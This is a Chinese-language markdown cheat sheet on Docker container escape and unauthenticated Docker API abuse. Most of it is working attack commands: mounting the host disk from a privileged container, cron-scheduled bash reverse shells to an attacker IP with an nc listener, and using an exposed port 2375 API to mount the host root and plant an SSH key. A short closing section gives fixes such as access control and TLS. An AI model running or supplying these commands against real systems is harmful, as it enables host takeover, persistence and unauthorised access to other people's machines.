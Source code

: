 
# docker 逃逸

启动时如果添加了 `--privileged` 参数，就会以特权模式启动docker，具备所有的Capabilities

```shell
# 1.1 方式1 查看是否在 docker中
ls -alh /.dockerenv
# 1.2 方式2
cat /proc/self/status|grepCapEff
## CapEff: 0000003fffffffff -- 以特权模式的

$ fdisk -l
# * Linux 表示是宿主机
## 如果通过特权模式启动容器，docker run --privileged时，Docker容器将被允许访问主机上的所有设备，并可以执行mount命令进行挂载。
/dev/sda1  *        2048 16779263 16777216   8G 83 Linux


mkdir /test
mount /dev/sda1 /test

vi /test/tmp/test.sh
/bin/bash -i >& /dev/tcp/192.168.50.161/7777 0>&1 
#:wq 保存

# 攻击机
nc -lvp 7777

# 写入 crontab
sed -i '$a*/2 *    * * *    root  bash /tmp/test.sh ' /test/etc/crontab

# 或者写入authorized_keys 然后ssh
```

## docker 未授权

访问 http://your-ip:2375/version
```sh
docker -H tcp://47.92.7.138:2375 images
docker -H tcp://47.92.7.138:2375 ps -a
# 启动容器并将宿主机磁盘挂载到/mnt
docker -H tcp://47.92.7.138:2375 run -it -v /:/mnt --entrypoint /bin/bash ubuntu:18.04
cd /mnt/root/.ssh/
echo "ssh-rsa AAAAB3NzaC1yc2......." > authorized_keys

# 反弹shell -- 可通过 crontab -e 写入定时任务
* * * * * /bin/sh -i >& /dev/tcp/xxx.xxx.xxx.xxx./1111 0>&1
```


# 0x04 修复建议

1、对 2375 端口做网络访问控制，如 ACL 控制，或者访问规则；

2、修改 docker swarm 的认证方式，使用 TLS 认证：Overview Swarm with TLS 和 Configure Docker Swarm for TLS 这两篇文档，说的是配置好 TLS 后，Docker CLI 在发送命令到 docker daemon 之前，会首先发送它的证书，如果证书是由 daemon 信任的 CA 所签名的，才可以继续执行。